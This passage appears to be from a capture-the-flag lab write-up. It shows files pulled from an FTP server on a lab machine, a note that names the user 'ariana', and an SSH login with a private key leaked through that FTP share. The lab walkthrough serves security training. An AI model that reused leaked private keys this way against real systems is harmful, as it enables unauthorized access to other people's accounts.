 ```sh
226 Transfer complete.
2602 bytes received in 0.00458 secs (568.62 Kbytes/sec)
ftp> get note.txt
local: note.txt remote: note.txt
227 Entering Passive Mode (192,168,56,101,41,153).
150 Opening BINARY mode data connection for note.txt (75 bytes).
226 Transfer complete.
75 bytes received in 0.00501 secs (14.98 Kbytes/sec)
ftp> 
```

## Flag 1
---

Decided to open and read the note.txt file and it shows the following information. Looks like there is the name of a user in there. Specifically named ariana. This could be the username for the next account.

```sh
cat note.txt 

Wow you are here 

ariana won't happy about this note 

sorry ariana :( 
```

It’s possible that the SSH key hosted on the FTP server is the private key for Ariana’s account. Used the -i flag ssh to use the private key to ssh into her account and it was successful. Checked the contents of the directory and it looks like there are files named user1.txt and ariana-personal.diary.

```sh
ssh -i id_rsa ariana@192.168.56.101
Linux pwned 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jul 10 13:03:23 2020 from 192.168.18.70
ariana@pwned:~$ ls -la
total 40
drwxrwx--- 4 ariana ariana 4096 Jul 10 12:55 .
drwxr-xr-x 5 root   root   4096 Jul 10 11:21 ..
-rw-r--r-- 1 ariana ariana  142 Jul 10 11:57 ariana-personal.diary
-rw------- 1 ariana ariana    4 Jul 10 13:06 .bash_history
-rw-r--r-- 1 ariana ariana  220 Jul  4 19:21 .bash_logout
-rw-r--r-- 1 ariana ariana 3526 Jul  4 19:21 .bashrc
drwxr-xr-x 3 ariana ariana 4096 Jul  6 17:18 .local
-rw-r--r-- 1 ariana ariana  807 Jul  4 19:21 .profile
drwx------ 2 ariana ariana 4096 Jul  9 15:01 .ssh
-rw-r--r-- 1 ariana ariana  143 Jul 10 11:51 user1.txt
```

